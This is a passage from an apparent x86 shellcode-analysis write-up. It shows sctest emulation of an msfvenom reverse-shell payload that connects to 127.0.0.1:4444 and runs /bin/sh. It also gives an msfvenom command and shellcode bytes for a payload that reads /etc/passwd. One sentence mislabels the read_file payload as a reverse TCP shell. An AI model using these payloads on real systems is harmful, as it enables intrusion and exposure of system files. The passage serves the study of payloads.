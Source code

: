 ```bash
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Sctest is used to emulate the specific instructions in the shellcode visually displaying the execution of the reverse shell payload. The parameters included in the Msfvenom payload are all visibly shown, the listening host, listening port and <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell.

The required syscalls are shown:

* socket
* dup2
* connect
* execve

#### 3rd Shellcode (linux/x86/read_file)
--------------

A Reverse TCP shell initiates a connection from the target host back to the attacker’s IP address and listening port, executing a shell on the target host’s machine:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/read_file PATH=/etc/passwd --arch x86 --platform linux -f c
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes
Final size of c file: 331 bytes
unsigned char buf[] = 
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";
```
